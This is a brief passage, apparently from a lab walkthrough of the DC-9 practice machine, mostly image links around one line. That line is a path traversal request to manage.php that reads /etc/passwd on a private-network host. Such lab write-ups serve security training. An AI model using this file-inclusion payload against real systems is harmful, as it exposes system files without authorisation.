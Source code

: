 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2011.png)

```bash
http://192.168.34.5/manage.php?file=../../../../../../../etc/passwd
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2012.png)
